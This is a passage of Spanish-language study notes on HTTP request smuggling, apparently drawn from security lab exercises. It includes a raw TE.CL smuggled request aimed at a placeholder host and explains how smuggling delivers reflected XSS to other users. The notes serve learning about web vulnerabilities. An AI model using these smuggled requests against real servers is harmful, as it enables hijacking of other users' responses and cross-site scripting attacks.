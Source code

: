 Si la próxima solicitud que llega al servidor web es la solicitud de nuestra víctima, modificamos con éxito la solicitud de tal manera que ahora contiene la carga útil en el header `Vuln` desde la perspectiva del servidor web. Por lo tanto, la respuesta que recibe la víctima contiene la carga útil XSS y explotamos con éxito a nuestra víctima.

### Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

estrucutra de un TE.CL:

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
(enter)
```

explotacion con el caso del anterior:

![[Pasted image 20230220204828.png]]


### Exploiting HTTP request smuggling to deliver reflected XSS

si encontramos un XSS reflejado en algun lugar de la pagina, podemos enviarlo en un **request smuggling**:

![[Pasted image 20230220223138.png]]

esto hara que se reflejo en otro usuario.

